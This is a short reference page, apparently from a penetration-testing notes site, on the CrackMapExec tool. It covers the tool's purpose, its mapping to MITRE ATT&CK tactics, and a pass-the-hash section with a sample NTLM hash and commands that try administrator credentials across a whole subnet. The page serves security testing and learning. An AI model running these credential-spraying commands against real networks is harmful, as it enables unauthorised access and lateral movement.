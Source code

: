 ```yaml
---
title: CrackMapExec
categories: [Ethical Hacking Tools, Frameworks and Suites]
tags: [crackmapexec, ntlmv2]
comments: true
---
```


## Overview

CrackMapExec (CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land", abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions. [^1]

Kali Linux comes with CME pre-installed. [^2]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) | V5.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) <br> [Privilege Escalation](https://attack.mitre.org/tactics/TA0004/) <br> [Discovery](https://attack.mitre.org/tactics/TA0007/) <br> [Collection](https://attack.mitre.org/tactics/TA0009/) <br> [Command and Control](https://attack.mitre.org/tactics/TA0011/) <br> [Exfiltration](https://attack.mitre.org/tactics/TA0010/) <br> [Execution](https://attack.mitre.org/tactics/TA0002/) <br> [Persistence](https://attack.mitre.org/tactics/TA0003/) <br> [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) <br> [Lateral Movement](https://attack.mitre.org/tactics/TA0008/) |

## CrackMapExec Modules

### Lateral Movement

#### Pass The Hash/Password

After obtaining credentials such as `Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::` you can use both the full hash or just the nt hash (second half). The following checks will attempt authentication to the entire /24 subnet though a single target may also be used.

```bash
# Pass the Hash
cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'

# Pass the Password
cme 192.168.1.0/24 -u Administrator -d Domain -p Password
```

## Sources

[^1]: [CrackMapExec Wiki](https://wiki.porchetta.industries/)
